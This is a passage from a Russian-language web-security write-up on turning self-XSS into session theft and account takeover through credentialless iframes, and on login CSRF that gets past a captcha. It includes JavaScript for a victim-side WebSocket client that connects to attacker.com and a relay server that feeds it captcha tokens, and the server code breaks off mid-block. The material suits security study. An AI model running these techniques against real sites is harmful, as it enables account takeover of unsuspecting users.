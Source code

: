 3. (Optional) Перенаправить пользователя в credentialless iframe на url который триггерит SELF.XSS, который в свою очередь выполнит нужные действия (кража сессии/ATO) внутри `window.top[1]`. Тут вам может быть полезен факт того что все credentialess frames внутри одного документа. То есть если вы уже имеете на странице `<iframe src=//example.com credentialless>`, который выставил внутри себя например `cookie` и `localStorage`. То добавив на страницу `<iframe src=//example.com/path1 credentialless>`, он будет иметь те же самые данные хранилища, что и первый `credentialless` frame.

В нашем случае это будет выглядеть примерно так:
![](./5.jpg)
Как можно заметить, мы успешно получили `alert()` с значением обоих cookie (атакующего и атакуемого). Чтобы просто выполнять действия внутри frame с credentials жертвы - вызовите `window.top[1].eval('your code')`

# SELF-XSS + CSRF on login with Captcha
Так же иногда вы можете наткнуться на случай, того что CSRF на форме логина отсутсвует, но присутсвует капча. На самом деле такая ситуация не сильно усложняет эксплойт. Ключевым моментом тут является то, что капча это не механизм защиты от CSRF, так как у вас нет гарантии что капча была пройдена на том же устройстве что и отправлена.

Фактически в таких случаях вы можете просто добавить пункт получения каптчи в атаку из предыдущего пункта, простая реализация на уровне клиента:
```js
const ws = new WebSocket('ws://attacker.com:3004');
ws.onopen = () => {
  ws.send(JSON.stringify({ type: 'visited' }));
};

ws.onmessage = (event) => {
  const data = JSON.parse(event.data);
  if (data.type === 'captcha') {
    captchaInput.value = data.captchaToken;
  }
};
```
И на уровне сервера:
```js
const WebSocket = require('ws');
const readline = require('readline');

const wss = new WebSocket.Server({ port: 3004 });

const rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout
});

console.log('WebSocket server is running on port 3004');
wss.on('connection', (ws) => {
    console.log('New client connected');
    ws.on('message', (message) => {
        const data = JSON.parse(message);
        if (data.type === 'visited') {
            console.log('Client sent visited message');
            rl.question('Enter captcha token: ', (token) => {
                ws.send(JSON.stringify({
                    type: 'captcha',
                    captchaToken: token
                }));
            });
        }
    });

    ws.on('close', () => {
```